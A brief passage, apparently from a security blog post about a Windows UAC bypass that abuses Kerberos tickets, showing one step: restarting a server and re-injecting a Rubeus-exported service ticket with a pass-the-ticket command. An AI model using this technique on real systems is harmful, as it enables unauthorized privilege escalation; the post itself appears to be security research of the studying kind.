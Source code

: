![image-20230727160853749](/assets/posts/2023-07-29-revisiting-a-uac-bypass-by-abusing-kerberos-tickets/image-20230727160853749.png)

(3) Restart the server and re-pass the service ticket exported by Rubeus back into memory:

```console
Rubeus.exe ptt /ticket:<BASE64 TICKET> 
```

